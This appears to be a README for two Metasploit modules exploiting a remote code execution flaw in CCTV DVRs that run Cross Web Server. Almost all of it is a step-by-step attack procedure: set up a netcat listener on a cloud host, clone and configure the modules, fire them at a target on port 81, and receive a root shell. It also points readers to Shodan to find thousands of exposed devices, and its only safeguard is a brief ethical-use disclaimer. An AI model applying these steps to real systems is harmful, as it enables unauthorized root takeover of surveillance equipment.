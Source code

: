 # CCTV-Remote-Code-Execution-Metasploit-Module


This code is adapted from the genius Rotem Kerner's python exploit into 2 metasploit modules to allow for easy pen testing of systems that utilise CCTV DVR's. If you go onto shodan.io and type in Cross Web Server, there are thousands of vulnerable CCTV DVR web hosts, many of them presumably already exploited. This exploit should only be used for ethical, legal and authorised penetration tests.

http://www.kerneronsec.com/2016/02/remote-code-execution-in-cctv-dvrs-of.html

Instructions for Use:

Set up a cloud host or web facing IP.

**Step 1:**

On this cloud host type
```
nc -l 666
```
On another host, or the same host in another window (making sure metasploit is installed)

**Step 1:**
```
cd /usr/share/metasploit-framework/modules/exploits/linux/http
```
**Step 2:**
```
git clone https://github.com/freddiebarrsmith/CCTV-Remote-Code-Execution-Metasploit-Module.git
```
**Step 3:**

edit the line containing host = "192.168.0.1" inside CCTV_DVRwrite.rb to be the ip of your cloud host

**Step 4:**

type 

```
msfconsole
```
**Step 5:**

```
use exploit/linux/http/CCTV_DVRwrite 
set RHOST yourtargethost.com
set RPORT 81 
exploit
```
(then wait for it to execute, ignore errors for the most part) 

**Step 6:**

```
use exploit/linux/http/CCTV_DVRrun 
set RHOST yourtargethost.com 
set RPORT 81 
exploit
```
(then wait for it to execute, ignore errors for the most part)

**Step 7:**

go back to your cloud or web-facing ip netcat session and type in:
```
whoami
```

to get the answer

root

if the exploit executed succesfully
